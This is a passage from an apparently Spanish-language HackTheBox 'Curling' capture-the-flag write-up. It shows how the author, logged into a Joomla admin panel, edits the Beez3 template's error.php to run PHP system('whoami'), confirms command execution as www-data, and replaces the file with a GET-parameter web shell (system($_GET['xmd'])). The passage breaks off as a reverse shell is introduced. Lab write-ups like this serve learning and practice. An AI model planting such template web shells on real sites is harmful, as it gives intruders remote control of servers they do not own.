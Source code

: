 Vemos algo así:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templates.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Damos clic en donde indica la flecha y llegamos a este apartado:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templates_list.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Seleccionamos cualquiera de los dos ***templates***, yo usaré `Beez3`, damos clic en su nombre y veríamos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templateFILES_beez3.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Yo modificaré el archivo `error.php`, damos clic sobre él y empezamos a jugar...

El contenido original no nos interesa, lo borramos (o guardamos en algún lado para después volverlo dejar como si no hubiéramos modificado nada 🤭) y retomamos la idea de ejecutar `whoami`, el archivo quedaría así:

```php
<?php system("whoami"); ?>
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_template_beez3_errorPHP_whoami.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

* [Manual PHP - system()](https://www.php.net/manual/es/function.system.php).

---

Lo siguiente será guardar el nuevo contenido del archivo `error.php`, damos `Save` y veríamos este mensaje:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_template_beez3_errorPHP_saved.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Perfecto, ahora solo debemos ver el contenido **interpretado**, siguiendo esta ruta llegamos al objeto `error.php`:

```html
http://10.10.10.150/templates/beez3/error.php
```

Yyyyy en la web veríamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_templateBEEZ3_errorPHP_whoamiRCE_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

OJOOOOOOOOOOOOOOOOOOOOOO, vemos que no hay errores y por el contrario se nos interpreta el contenido, nos indica que el usuario que ejecuta el servicio **Joomla** es `www-data`. ASÍ QUEEEEEE TEEEENEEEEEMOOOOOS ejecución remota de comandos sobre el sistema (:

Entablémonos una reverse Shell...

Podemos indicárselo en el mismo `sy, pero A MÍ me gusta guardar una variable desde el método `GET` que su contenido sea el que interprete la función `system()`, así no tenemos que estar modificando el contenido del template y solo jugamos con la variable `xmd`, veamos un ejemplo rápido. Esta sería la estructura del archivo `error.php`:

```php
<?php system($_GET['xmd']); ?>
```
